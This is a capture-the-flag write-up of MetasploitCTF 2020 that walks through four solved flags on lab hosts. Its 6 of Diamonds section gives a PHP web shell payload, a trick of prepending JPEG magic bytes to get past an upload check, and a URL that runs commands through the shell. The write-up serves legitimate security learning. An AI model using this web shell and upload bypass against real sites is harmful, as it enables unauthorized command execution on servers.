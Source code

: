 <p align="center"> ### MetasploitCTF, December 2020 documentation ### </p>
<p align="center"> ### Placement: 110/413 ### </p>

# Solved flags:
### 4 of Hearts (80)
After finding all the open ports, the first and simplest thing to do is `curl 172.15.100.101` where we discover the line `<img src=”4_of_hearts.png” />`.

`curl 172.15.100.101/4_of_hearts.png -o 4_of_hearts.png` to fetch the file. Then we get the md5hash with `md5sum 4_of_hearts.png`

### Red Joker (9007)
This site is a simple directory containing a file called `red_joker.zip`. Unzipping this file yields the Red Joker card, and 7 seemingly irrelevant, empty pdf files. The pdf files are all 755 bytes and seem to contain basic pdf metadata.

### 6 of Diamonds (8200)
The site hosts a simple gallery of moose pictures but also allows anyone to upload their own pictures. We will create a file with the extension .jpg.php and inside that file we will put a php payload`<?php passthru($_GET["cmd"]); ?>`. This will allow us to pass commands and do directory traversal in the URL. We will then upload this file to the server... Somehow.

This really shouldn't work, and trying to reproduce this results in a faulty mime type error. What we're actually supposed to do is have a valid jpeg mime type `\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01` on the first line, so the check would be properly passed.

So...

`http://172.15.100.101:8200/images/shell.jpg.php?cmd=cd%20../%20;%20ls`

to list everything in the directory above /images. In that directory, there is another directory called 
`157a7640-0fa4-11eb-adc1-0242ac120002`.

Inside of this directory we can find our flag, `6_of_diamonds.png`. To get the image, we will simply do:

`curl 172.15.100.101:8200/157a7640-0fa4-11eb-adc1-0242ac120002/6_of_diamonds.png -o 6_of_diamonds.png`

### 6 of Hearts (6868)
This site hosts another gallery. There are subdirectories `/files` and `/notes` and the initials of the artists from the main page can be used to access their files and notes, like `/files/BD/0` etc. There's definitely no need to write a python script to create a wordlist for every 3 and 2 letter combination and then scrape the site with dirb. Just use your brain and the initials from the front page.

Anyways... `/notes/BD/1` tells us that the site admin is called Beth. and `/MC/2` tells us that Beth's a weirdo and her middle name is Ulysses Denise Donnoly. Checking `/notes/BUDD/0` yields nothing, so we're still missing the last name initial. Randomly trying Y works. `/notes/BUDDY/0` displays a unicode character of 6 of hearts, `/1` is a lennyface and `/2` says 'Close, but no cigar'.

It is at this point where we might be reminded that there is a files directory. Or we might forget about that for a while. As it turns out, `/files/BUDDY/2` is our file, 6 of Hearts.
